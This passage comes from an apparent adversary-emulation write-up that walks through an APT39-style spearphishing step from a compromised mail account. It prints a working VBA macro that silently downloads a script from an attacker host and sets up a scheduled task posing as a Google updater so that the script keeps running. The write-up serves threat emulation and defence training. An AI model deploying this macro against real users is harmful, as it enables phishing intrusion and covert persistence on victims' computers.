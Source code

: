 Upon logging in there are now opportunities to send a phishing email from the
compromised account:

![](images/Emulating%20A%20Threat%20Actor%20-%20APT%2039/image005.png)<br><br>


### Spearphishing > POWBAT

> "FireEye Intelligence has observed APT39 leverage spear phishing emails with malicious attachments and/or hyperlinks typically resulting in a POWBAT infection"

<br>

Now that we have access to OWA, we can simulate a spearphishing email.  Only
difference is we'll be sending it from a legitimate account.

Analysis of a POWBAT variant can be found [here](https://www.fireeye.com/blog/threat-research/2016/05/targeted_attacksaga.html).  To simulate this malicious document, we'll create a
macro that performs some of its basic functions:

- Drops `update.vbs` in `C:\Users\Public`
- Creates `GoogleUpdateTaskMachineUI` task which runs `update.vbs` every 3 minutes

<br>

Here is a basic VBA macro that does this:

```vbs
Sub Init()
   Set wss = CreateObject("WScript.Shell")
   Set cmd = "powershell.exe Invoke-WebRequest -Uri http://10.10.14.53:8443/update.vbs -OutFile C:\Users\Public\update.vbs"
   CreateObject("WScript.Shell").Run cmd, 0
   wss.Run "schtasks /create /F /sc minute /mo 3 /tn GoogleUpdateTaskMachineUI /tr C:\Users\Public\update.vbs", 0
End Sub
```
<br>
